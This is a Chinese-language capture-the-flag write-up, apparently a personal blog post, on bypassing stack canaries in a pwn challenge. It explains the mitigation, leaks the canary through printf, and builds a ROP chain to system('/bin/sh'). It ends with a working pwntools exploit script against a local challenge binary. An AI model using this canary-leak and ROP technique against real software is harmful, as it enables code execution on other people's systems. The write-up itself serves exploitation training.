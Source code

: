 ```yaml
---
layout:     post
title:      canary绕过类
subtitle:  PWN中应对canary防御机制开启得情况
date:       2022-03-18
author:     BY kexiaohei
header-img: img/pwn.jpeg
catalog: true
tags:
    - pwn
    - canary
    - bypass
---
```


# canary绕过类

https://blog.csdn.net/ALPS233/article/details/102736299

![image-20220216112952714](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216112952714.png)

原理：
1、 在所有函数调用发生时，向栈帧内压入一个额外的随机 DWORD，这个随机数被称作
“canary”，用 IDA 反汇编时，又被称作“Security Cookie”。
2、 canary 位于 EBP 之前，系统还会在.data 的内存区域中存放一个 canary 的副本。
3、 当栈中发生溢出时，canary 将被首先淹没，之后才是 EBP 和返回地址。
4、 在函数返回之前，系统将执行一个额外的安全验证操作，称作 Security Check。 5、在 Security Check 过程中，系统将比较栈帧中原先存放的 canary 和.data 中副本的值，若两者不同，则说明栈中发生了溢出，系统将进入异常处理流程，函数不会正常返回。
如图所示，（图自 Dynamic Canary Randomization for Improved Software Security 论文）

![img](http:frankie625641200.github.io/img/bukpwn4.assets/20191025085303897.png)

### 1、溢出点

按照正常逻辑出发

溢出点会混淆视听，无法直接判断出特定点是否存在溢出

![image-20220216105420728](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216105420728.png)

因此我们的目标只能聚集在可输入字符串：

![image-20220216105843112](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216105843112.png)

从这里可以判断出来，原先的v5针对的是地址在0x210，若存在溢出，则直接通过压栈，修改到跳转地址esp和跳转参数ebp，按照对应漏洞，则可以直接进行溢出，漏洞点即存在。

![image-20220216105952216](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216105952216.png)

![image-20220216110154984](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216110154984.png)

但是通过直接溢出方案是失败的

![image-20220216110426214](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216110426214.png)

因为这里有个栈溢出判断：

![image-20220216110457419](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216110457419.png)

所以没办法直接对对应的字符进行溢出

### 2、Canary防护

一般系统级应用都会启动Canary防护，这个防护根据原理介绍可以知道，直接通过去栈溢出实现是不可能的，那么最佳的方案就是在printf中

![image-20220216153856935](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216153856935.png)

![image-20220216154018904](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216154018904.png)

不难推断出来，这里直接可以用buf读出canary然后通过第二次v5的时候直接将canary去校验，**前提是必须是在同一个函数下**，这是因为canary机制问题，因为其随机性，一旦不在同一个函数，其canary验证数据也不一样了

因此，我们直接可以通过第一次printf出来，然后记录最后数据，再通过该数据去实现第二次的校验达到溢出的效果。

这里有个关键点，在canary结尾，需要直接用\x00去截断，将canary低位的 ‘\x00’ 给覆盖掉

### 3、溢出



![image-20220216161046181](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216161046181.png)

溢出到一定的地方，接下来就是相关数据，这里需要跳到hint这个函数，这里直接可以通过测试。

![image-20220216161127948](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216161127948.png)

由于平行输入问题

这里需要用sendlineafter函数替换

因此，替换掉函数发现输入成功

![image-20220216163000554](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216163000554.png)

这里已经输出了666了

所以直接通过去修改对应的点就达到想要的效果

那么找到pop edi|ret

![image-20220216164021059](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216164021059.png)

取出地址，然后找到对应的/bin/sh字符串：

![image-20220216164109606](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216164109606.png)

最后是定位到system的函数位置：

![image-20220216164322338](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216164322338.png)

然后写出代码

```
from pwn import *

k = process("./pwn4_")

context.log_level="debug"

k.sendlineafter("Please leave your name(Within 36 Length):","A"*(0x240-0x8))

k.recvline()

t = k.recv(7).rjust(8,"\x00")

print(t)

k.sendlineafter("Please leave a message(Within 0x200 Length):","B"*(0x210-0x8)+t+"t"*0x8+p64(0x400963)+p64(0x601068)+p64(0x400660))

k.interactive()
```

![image-20220216164511957](http:frankie625641200.github.io/img/bukpwn4.assets/image-20220216164511957.png)

getshell！